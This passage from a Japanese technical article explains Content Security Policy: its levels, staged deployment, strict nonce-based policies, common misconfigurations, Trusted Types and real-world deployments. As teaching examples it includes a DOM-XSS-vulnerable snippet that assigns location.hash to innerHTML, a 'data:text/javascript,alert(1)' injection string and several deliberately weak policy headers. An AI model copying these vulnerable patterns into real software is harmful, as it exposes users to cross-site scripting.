CSP Level 1は、ドメインベースのホワイトリスト方式を中心に設計された。

主な特徴は以下の通りである。

- `default-src`、`script-src`、`style-src`、`img-src`、`connect-src`、`font-src`、`object-src`、`media-src`、`frame-src` の基本的なフェッチディレクティブ
- `sandbox` ディレクティブ
- `report-uri` による違反レポート
- `'self'`、`'none'`、`'unsafe-inline'`、`'unsafe-eval'` のソースキーワード
- ホストベースおよびスキームベースのソース表現

Level 1は、CSPの基本概念を確立した重要なマイルストーンであったが、インラインスクリプトを使用するために `'unsafe-inline'` を指定する必要があり、結果としてXSS防御効果が大幅に低下するという根本的なジレンマを抱えていた。

### 7.2 CSP Level 2（2014年）

CSP Level 2では、Level 1の限界を克服する重要な機能が追加された。

- **nonceベースCSP**: `'nonce-{base64}'` ソース表現の導入
- **hashベースCSP**: `'sha256-{base64}'`、`'sha384-{base64}'`、`'sha512-{base64}'` ソース表現の導入
- **`child-src`**: `frame-src` に代わるディレクティブ（iframeとWorkerを統合）
- **`base-uri`**: `<base>` 要素のURL制限
- **`form-action`**: フォーム送信先の制限
- **`frame-ancestors`**: クリックジャッキング防御（`X-Frame-Options` の後継）
- **`plugin-types`**: 許可するMIMEタイプの制限（CSP Level 3で非推奨）

nonceとhashの導入により、`'unsafe-inline'` を使わずにインラインスクリプトを許可できるようになった。これはCSPの実用性を飛躍的に向上させた画期的な改善であった。

### 7.3 CSP Level 3（策定中）

CSP Level 3は現在もWorking Draftとして更新が続いており、以下の機能が追加・変更されている。

- **`'strict-dynamic'`**: 信頼の伝搬モデル
- **`worker-src`**: Web WorkerとService Workerの個別制御
- **`frame-src` の復活**: `child-src` とは別にiframeを個別制御
- **`script-src-elem` / `script-src-attr`**: スクリプトソースの細分化
- **`style-src-elem` / `style-src-attr`**: スタイルソースの細分化
- **`report-to`**: Reporting APIとの統合（`report-uri` の後継）
- **`navigate-to`**: ナビゲーション先の制限（ただし後に仕様から削除された）

Level 3で最も重要な追加は `'strict-dynamic'` である。前述のGoogleの研究で明らかになったホワイトリスト方式の限界を踏まえ、nonceまたはhashに基づく「Strict CSP」を実現する基盤として設計された。

## 8. 実践的なデプロイ戦略

### 8.1 段階的なロールアウト

CSPのデプロイは段階的に行うことが鉄則である。いきなりEnforcingモードで厳密なポリシーを適用すると、正規のリソースがブロックされてサービスが正常に動作しなくなるリスクがある。

**ステップ1: 現状把握**

まず、アプリケーションが使用しているすべてのリソースソース（スクリプト、スタイルシート、画像、フォント、API接続先など）を洗い出す。

**ステップ2: Report-Onlyモードでの監視**

Report-Onlyモードで初期ポリシーをデプロイし、違反レポートを収集する。

```http
Content-Security-Policy-Report-Only: default-src 'self'; script-src 'self' 'nonce-{random}' 'strict-dynamic'; style-src 'self' 'unsafe-inline'; img-src 'self' data:; connect-src 'self' https://api.example.com; object-src 'none'; base-uri 'none'; report-uri /csp-report
```

**ステップ3: ポリシーの調整**

収集した違反レポートを分析し、正規のリソースがブロックされていないか確認する。必要に応じてポリシーを調整し、再度Report-Onlyモードで監視する。

**ステップ4: Enforcingモードへの移行**

十分な期間の監視を経て、意図しないブロックがないことを確認した後に、Enforcingモード（`Content-Security-Policy` ヘッダー）に切り替える。

**ステップ5: 継続的な監視**

Enforcingモードに移行した後も、`report-uri` または `report-to` による違反レポートの監視を継続する。新たな機能追加やサードパーティスクリプトの変更によって、予期しないブロックが発生する可能性があるためである。

### 8.2 推奨されるStrictポリシー

Googleが推奨する本番環境向けのStrict CSPポリシーは以下の形式である。

```http
Content-Security-Policy:
  script-src 'nonce-{RANDOM}' 'unsafe-inline' 'unsafe-eval' 'strict-dynamic' https: http:;
  object-src 'none';
  base-uri 'none';
  report-uri https://your-report-collector.example.com/
```

このポリシーは以下の戦略に基づいている。

- **`'nonce-{RANDOM}'`**: 主要な防御メカニズム。CSP Level 2以上のブラウザで有効
- **`'strict-dynamic'`**: 信頼されたスクリプトから動的に読み込まれるスクリプトを許可。CSP Level 3のブラウザで有効
- **`'unsafe-inline'`**: CSP Level 1のみ対応のレガシーブラウザ向けフォールバック（nonceが存在する場合、Level 2以上では無視される）
- **`https:` / `http:`**: CSP Level 1/2のブラウザで `'strict-dynamic'` が無視された場合のフォールバック（Level 3では `'strict-dynamic'` によって無視される）
- **`object-src 'none'`**: プラグインコンテンツの完全な禁止
- **`base-uri 'none'`**: `<base>` タグの注入によるスクリプト読み込み先の改ざんを防止

### 8.3 よくある設定ミスと注意点

CSPの設定でよく見られるミスを解説する。

**1. `'unsafe-inline'` の安易な使用**

```http
/* 危険: XSS防御効果がほぼ皆無になる */
Content-Security-Policy: script-src 'self' 'unsafe-inline'
```

`'unsafe-inline'` を `script-src` に指定すると、すべてのインラインスクリプトの実行が許可されるため、XSSに対するCSPの防御効果がほぼなくなる。nonceまたはhashを使用すべきである。

**2. `'unsafe-eval'` の使用**

```http
/* 可能な限り避けるべき */
Content-Security-Policy: script-src 'self' 'unsafe-eval'
```

`'unsafe-eval'` は `eval()`、`Function()`、`setTimeout(string)`、`setInterval(string)` の使用を許可する。これらはXSSの攻撃ベクトルとなり得るため、可能な限り避けるべきである。

**3. ワイルドカードの過剰使用**

```http
/* 危険: すべてのソースを許可してしまう */
Content-Security-Policy: script-src *
```

ワイルドカード `*` は `data:`、`blob:`、`filesystem:` スキームを含まないが、それでもほぼすべてのHTTP/HTTPSソースからのスクリプト読み込みを許可してしまう。

**4. `data:` スキームの安易な許可**

```http
/* 危険: data: URIを通じたスクリプト実行が可能 */
Content-Security-Policy: script-src 'self' data:
```

`data:` スキームを `script-src` に許可すると、攻撃者は `data:text/javascript,alert(1)` のようなURIを注入してスクリプトを実行できてしまう。

**5. `default-src` のフォールバック対象外ディレクティブの未設定**

```http
/* base-uri と form-action が未設定 → 制限なし */
Content-Security-Policy: default-src 'self'
```

`base-uri`、`form-action`、`frame-ancestors` は `default-src` のフォールバック対象外であるため、明示的に設定しなければ制限がかからない。

**6. nonceの再利用や予測可能な生成**

nonceをセッション単位で使い回したり、タイムスタンプやシーケンシャルな値で生成したりすると、攻撃者にnonceを推測されるリスクがある。必ず暗号学的に安全な乱数生成器を使用し、リクエストごとに新しいnonceを生成する必要がある。

## 9. Trusted Types

### 9.1 DOMベースXSSの課題

CSP（特にnonceベースCSP）は、HTMLに注入されたインラインスクリプトの実行を防ぐことには有効であるが、DOMベースXSSに対する防御は限定的である。DOMベースXSSは、クライアントサイドJavaScriptが信頼できないデータをDOMの危険なシンク（sink）に渡すことで発生する。

```javascript
// DOM-based XSS: URLフラグメントの内容をinnerHTMLに直接設定
const userInput = location.hash.substring(1);
document.getElementById('output').innerHTML = userInput;
// 攻撃者が # をURLに含めると、XSSが発生する
```

代表的なDOMのシンク（危険な代入先）は以下の通りである。

- `Element.innerHTML`
- `Element.outerHTML`
- `document.write()`
- `eval()`
- `setTimeout(string)` / `setInterval(string)`
- `new Function(string)`
- `script.src`
- `a.href`（`javascript:` プロトコル）

### 9.2 Trusted Typesの仕組み

Trusted Typesは、DOMのシンクに渡される値を型安全にすることでDOMベースXSSを防止するブラウザAPIである。CSPの `require-trusted-types-for` ディレクティブと組み合わせて使用する。

```http
Content-Security-Policy: require-trusted-types-for 'script'; trusted-types myPolicy default
```

Trusted Typesが有効な場合、DOMのシンクに文字列を直接代入することが禁止される。代わりに、事前に定義した「ポリシー」を通じて作成された型付きオブジェクト（`TrustedHTML`、`TrustedScript`、`TrustedScriptURL`）のみが受け入れられる。

```javascript
// Trusted Types policy definition
const myPolicy = trustedTypes.createPolicy('myPolicy', {
  createHTML: (input) => {
    // Sanitize the input using DOMPurify or similar
    return DOMPurify.sanitize(input);
  },
  createScriptURL: (input) => {
    // Only allow scripts from trusted origins
    const url = new URL(input, document.baseURI);
    if (url.origin === 'https://cdn.example.com') {
      return url.href;
    }
    throw new TypeError('Untrusted script URL: ' + input);
  }
});

// Using the policy
const sanitizedHTML = myPolicy.createHTML(userInput);
document.getElementById('output').innerHTML = sanitizedHTML; // OK

// Direct string assignment is blocked
document.getElementById('output').innerHTML = userInput; // TypeError!
```



### 9.3 Trusted Typesの現状

Trusted Typesは2020年にChromium 83で実装され、現在はChromiumベースのブラウザ（Chrome、Edge、Opera）でサポートされている。FirefoxやSafariではまだ実装されていないが、ブラウザがTrusted Typesをサポートしていない場合、`require-trusted-types-for` ディレクティブは単に無視されるため、後方互換性の問題は発生しない。

Trusted TypesはStrict CSPを補完する技術として位置づけられており、両者を組み合わせることで、反射型XSS・格納型XSS（CSPで防御）とDOMベースXSS（Trusted Typesで防御）の両方に対する堅牢な防御層を構築できる。

## 10. CSPとXSS防御の関係

### 10.1 多層防御としてのCSP

CSPはXSSに対する「最後の砦」であり、唯一の防御策ではない。CSPは多層防御（Defense in Depth）の一層として位置づけるべきである。

```
+-----------------------------------------------------------+
|                     多層防御モデル                          |
+-----------------------------------------------------------+
|                                                           |
|  第1層: 安全なコーディング実践                              |
|    - 入力バリデーション                                     |
|    - コンテキストに応じた出力エスケープ                      |
|    - テンプレートエンジンの自動エスケープ機能                 |
|                                                           |
|  第2層: フレームワークの保護機能                             |
|    - React/Angular/Vueの自動エスケープ                     |
|    - DOMPurifyによるサニタイズ                              |
|                                                           |
|  第3層: Content Security Policy                            |
|    - Strict CSP（nonce + strict-dynamic）                  |
|    - Trusted Types                                        |
|                                                           |
|  第4層: その他のHTTPセキュリティヘッダー                     |
|    - X-Content-Type-Options: nosniff                      |
|    - X-Frame-Options / frame-ancestors                    |
|    - Referrer-Policy                                      |
|                                                           |
+-----------------------------------------------------------+
```

CSPだけでXSSを完全に防ぐことはできない。例えば、CSPをバイパスする高度な攻撃手法（CSS Injection経由のデータ窃取、scriptless attacksなど）が存在する。また、`'unsafe-inline'` や `'unsafe-eval'` を許可している場合、CSPのXSS防御効果は大幅に低下する。

しかし、適切に設定されたStrict CSP（nonce + strict-dynamic）は、XSSの影響を大幅に軽減する強力な追加防御層である。サーバーサイドのサニタイズ処理にバグがあった場合でも、CSPが攻撃者のスクリプト実行を阻止する可能性が高い。

### 10.2 CSPが防げるXSSと防げないXSS

| XSSの種類 | Strict CSPの防御効果 |
|---|---|
| 反射型XSS（インラインスクリプト注入） | 高い。nonceが一致しないため実行がブロックされる |
| 格納型XSS（インラインスクリプト注入） | 高い。同上 |
| DOMベースXSS | 限定的。Trusted Typesとの併用で防御可能 |
| スクリプトガジェットを利用した攻撃 | 場合による。strict-dynamicの信頼伝搬が悪用される可能性がある |
| CSSインジェクション | CSPの `style-src` で一部制限可能だが、完全な防御は困難 |
| ダングリングマークアップ攻撃 | CSPでは防御困難 |

## 11. 実世界のデプロイ事例

### 11.1 GitHubのCSPデプロイ

GitHubは、CSPの導入と改善に早期から取り組んできた代表的な事例である。2013年にGitHub Engineering Blogで「Content Security Policy」という記事を公開し、CSPの段階的な導入プロセスを公開した。

GitHubのCSPデプロイのアプローチには以下の特徴がある。

- **Report-Onlyモードから開始**: まず `Content-Security-Policy-Report-Only` でポリシーをデプロイし、違反レポートを収集・分析してから段階的にEnforcingモードに移行した
- **インラインスクリプトの排除**: CSPの導入に先立ち、HTMLテンプレートからインラインスクリプトやインラインイベントハンドラを体系的に排除した
- **nonceの活用**: やむを得ずインラインスクリプトが必要な箇所にはnonceを使用した
- **継続的な改善**: CSPポリシーを時間をかけて段階的に厳格化し、最終的に `'unsafe-inline'` を完全に排除した

GitHubのケースは、大規模なWebアプリケーションにおけるCSPの段階的な導入が実現可能であることを示す重要な事例である。

### 11.2 GoogleのCSP推進

Googleは、CSPの研究と実践の両面で中心的な役割を果たしている。

**研究面**: 2016年の「CSP Is Dead, Long Live CSP!」論文で、ホワイトリスト方式の限界を実証的に示し、nonce + strict-dynamic に基づくStrict CSPを提案した。この研究はCSPの設計方針に大きな影響を与え、CSP Level 3の `'strict-dynamic'` キーワードの策定につながった。

**ツール提供**: Googleは `csp-evaluator`（CSPポリシーの脆弱性を自動チェックするツール）を公開しており、開発者がCSPポリシーの品質を評価するために活用できる。

**自社サービスへの適用**: Google自身のサービス（Gmail、Google Search、YouTube等）にStrict CSPを適用しており、大規模なサービスにおける実践的な知見を蓄積している。Googleの公式ドキュメントでは、すべてのWebアプリケーションに対してStrict CSPの適用を推奨しており、具体的なポリシーテンプレートとデプロイ手順を公開している。

### 11.3 その他の事例と業界動向

CSPの採用は年々増加している。大手テック企業だけでなく、金融機関やECサイトなど、セキュリティが特に重要なWebアプリケーションにおいてCSPの導入が進んでいる。

また、Webフレームワークのレベルでも CSPのサポートが充実してきている。Ruby on Rails はバージョン5.2以降でCSPの設定用DSLを提供しており、Django は `django-csp` ミドルウェアを通じてCSPの設定を簡素化している。Next.js や Nuxt.js などのモダンなフレームワークも、nonceベースCSPの組み込みサポートを提供している。

## 12. CSPの運用上の課題

### 12.1 サードパーティスクリプトとの共存

現代のWebアプリケーションは、多数のサードパーティスクリプト（アナリティクス、広告、チャットウィジェット、A/Bテストツールなど）に依存している。これらのスクリプトはCSPの設定を複雑にする最大の要因である。

サードパーティスクリプトが動的にさらに別のスクリプトを読み込んだり、インラインスクリプトを生成したりする場合、ホワイトリスト方式ではそのすべてのドメインを許可リストに追加する必要がある。これはセキュリティの低下を招く。

`'strict-dynamic'` はこの問題を部分的に解決する。信頼されたスクリプト（nonceが付与されたスクリプト要素で読み込まれたサードパーティスクリプト）から動的に生成されたスクリプトには信頼が伝搬されるため、個々のドメインをホワイトリストに追加する必要がない。

ただし、Google Tag Managerのように `document.write()` を使用するスクリプトや、パーサー挿入（parser-inserted）のスクリプト要素を生成するスクリプトについては、`'strict-dynamic'` による信頼の伝搬が適用されないケースがある。

### 12.2 CDNとキャッシュの問題

NonceベースCSPを使用する場合、レスポンスごとに異なるnonceを含む必要がある。これは、CDNやHTTPキャッシュとの相性が悪い。キャッシュされたHTMLには古いnonceが含まれているため、新しいリクエストのCSPヘッダーに含まれるnonceと一致しなくなる。

この問題に対するアプローチはいくつかある。

- **Edge Computing の活用**: CloudflareのEdge WorkersやFastlyのCompute@Edgeなど、CDNのエッジでHTMLを加工してnonceを注入する
- **HashベースCSPの使用**: 静的なHTMLをCDNで配信する場合は、hashベースCSPの方が適している
- **動的HTMLの分離**: キャッシュ可能な静的アセットとnonce生成が必要な動的HTMLを分離する

### 12.3 レポートの大量発生

CSPを大規模なWebサイトにデプロイすると、ブラウザ拡張機能やマルウェア、ボットなどによって意図しないCSP違反レポートが大量に発生することがある。これは「レポートの氾濫」（report flood）と呼ばれ、真に重要な違反レポートを埋もれさせてしまう。

この問題に対処するためには、以下の戦略が有効である。

- **レポート集約サービスの利用**: Report URIやSentryなどの専用サービスを利用して、レポートの集約、重複排除、フィルタリングを行う
- **既知のノイズのフィルタリング**: ブラウザ拡張機能由来の違反（`chrome-extension://` や `moz-extension://` が `source-file` に含まれるレポート）を自動的にフィルタリングする
- **サンプリング**: 全レポートを収集するのではなく、一定割合のサンプリングでレポートを収集する

## 13. CSPのベストプラクティスまとめ

CSPを効果的にデプロイするためのベストプラクティスを整理する。

### 13.1 推奨される最小構成

```http
Content-Security-Policy:
  script-src 'nonce-{RANDOM}' 'strict-dynamic';
  object-src 'none';
  base-uri 'none';
  frame-ancestors 'self';
  form-action 'self';
  report-uri /csp-report;
  report-to csp-endpoint
```

### 13.2 チェックリスト

1. **`'unsafe-inline'` を避ける**: `script-src` には必ずnonceまたはhashを使用する
2. **`'unsafe-eval'` を避ける**: `eval()` の使用を排除し、代替手段（`JSON.parse()`、テンプレートリテラルなど）を使用する
3. **`object-src 'none'` を設定する**: プラグインコンテンツを完全に禁止する
4. **`base-uri 'none'` または `'self'` を設定する**: `<base>` タグの注入を防ぐ
5. **`frame-ancestors` を設定する**: クリックジャッキングを防止する
6. **`form-action` を設定する**: フォーム送信先の改ざんを防ぐ
7. **Report-Onlyモードから開始する**: いきなりEnforcingモードにしない
8. **違反レポートを収集・監視する**: 継続的にCSPの効果と影響を評価する
9. **Strict CSPを目指す**: ホワイトリスト方式ではなく、nonce + strict-dynamic を使用する
10. **Trusted Typesの導入を検討する**: DOMベースXSSの防御を強化する

## 14. 今後の展望

### 14.1 CSPの進化

CSP Level 3の策定が進む中、いくつかの方向性が見えてきている。

`'strict-dynamic'` の普及により、ホワイトリスト方式からnonce/hashベースのStrict CSPへの移行が加速している。Webフレームワークやライブラリの対応が進むことで、CSPの導入障壁はさらに下がっていくと考えられる。

Reporting APIの安定化により、CSP違反レポートの収集と分析がより標準化され、ブラウザ間の互換性も向上していくことが期待される。

### 14.2 Trusted Typesの標準化

現在ChromiumベースのブラウザのみがサポートしているTrusted Typesであるが、DOMベースXSSに対する防御としての有効性が認められれば、他のブラウザエンジン（Firefox、Safari）での実装も期待される。Trusted TypesがWeb標準として広く採用されれば、CSPとの組み合わせによるXSS防御がより堅牢になる。

### 14.3 Webプラットフォーム全体のセキュリティ向上

CSPはWebセキュリティの一部分に過ぎない。CORS（Cross-Origin Resource Sharing）、COOP（Cross-Origin Opener Policy）、COEP（Cross-Origin Embedder Policy）、CORP（Cross-Origin Resource Policy）など、ブラウザが提供するセキュリティメカニズムは増え続けている。これらの機能がCSPと組み合わさることで、Webアプリケーションのセキュリティモデルはより精緻で堅牢なものへと進化していく。

しかし、セキュリティ機構が増えるということは、開発者が理解し正しく設定すべきものが増えるということでもある。Webフレームワークやホスティングプラットフォームがこれらの設定を適切なデフォルト値で提供し、開発者が意識せずともセキュアな環境が整うような「Secure by Default」の実現が、今後の重要な課題である。

## まとめ

Content Security Policyは、XSSに対するブラウザ側の防御層として2012年に生まれ、Level 1のドメインホワイトリスト方式からLevel 3のnonce + strict-dynamicによるStrict CSPへと進化してきた。

CSPの本質は、「サーバーがブラウザに対して、信頼できるコンテンツソースを明示的に宣言する」というシンプルな概念である。しかし、その効果的なデプロイには、ディレクティブの正確な理解、段階的な導入プロセス、サードパーティスクリプトとの共存、継続的な監視など、多くの実践的な考慮が必要である。

Googleの研究が示したように、不適切に設定されたCSPは「セキュリティの幻想」にすぎない。ホワイトリスト方式の94.68%が実質的に無効であったという事実は、CSPを正しく理解し設定することの重要性を如実に物語っている。

現代のベストプラクティスは明確である。nonceベースCSP + strict-dynamic + Trusted Typesの組み合わせによるStrict CSPを、Report-Onlyモードからの段階的な導入によってデプロイすること。これが、XSSに対する最も効果的なブラウザ側の防御戦略である。
